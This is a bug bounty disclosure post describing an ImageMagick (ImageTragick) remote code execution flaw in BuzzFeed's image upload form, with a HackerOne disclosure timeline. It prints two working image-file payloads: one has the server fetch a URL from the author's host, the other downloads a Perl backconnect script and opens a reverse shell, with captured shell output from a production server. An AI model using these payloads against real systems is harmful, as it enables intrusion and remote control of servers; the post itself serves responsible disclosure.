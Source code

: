```yaml
---
layout: post
title:  "BuzzFeed Remote Code Execution Vulnerability"
date:   2016-07-27 17:00:00
categories:
    - project
tags:
    - Bug Bounty
    - RCE Vulnerability
    - HackerOne
---
```


We just found some vulnerabiliy on the Buzzfeed.com website. That vulnerabillity infected ImageMagick, an applications that used by Buzzfeed for processing an images that inputted by the user. Through the upload form in Buzzfeed page, an attacker can upload an image file that has been injected by malicious code.

**Infected URLs:**

https://www.buzzfeed.com/post

https://www.buzzfeed.com/settings



#### Malicious Code 1:

~~~
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0/oops.jpg"; wget https://noobsec.org:1337/ping-me; touch "hello)'
pop graphic-context
~~~


**Response:**

~~~
Connection from 54.208.xx.xx port 1337 [tcp/menandmice-dns] accepted
GET /ping-me HTTP/1.1
User-Agent: Wget/1.13.4 (linux-gnu)
Accept: */*
Host: noobsec.org:1337
Connection: Keep-Alive
~~~


#### Malicious Code 2:

~~~
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0/oops.jpg"; cd /tmp && wget https://noobsec.org/backconnect.txt && mv /tmp/backconnect.txt /tmp/n00b.pl && perl /tmp/n00b.pl noobsec.org 1337; touch "hello)'
pop graphic-context
~~~


**Response:**

~~~
Connection from 54.87.xx.xx port 1337 [tcp/menandmice-dns] accepted
/bin/sh: 0: can't access tty; job control turned off
$ uname –a
Linux buzzfeed-prod-web01 3.2.0-101-virtual [#141](/reports/141)-Ubuntu SMP Thu Mar 10 22:12:23 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
~~~

Exploit code above allow Buzzfeed's servers to connect to the noobsec.org's server through Port 1337, so an attacker can send a command shell to Buzzfeed server (Remote Code Execution).


Timeline

- 23 July 2016 : Report Bug to Buzzfeed
- 27 July 2016 : Buzzfeed respond and ask for details
- 27 July 2016 : Buzzfeed ask to continue disscussion via Hackerone
- 27 July 2016 : Noobsec submit bug in Hackerone
- 28 July 2016 : Buzzfeed confirmed bug has been fixed


Reference:

1. https://imagetragick.com/
2. https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-3714
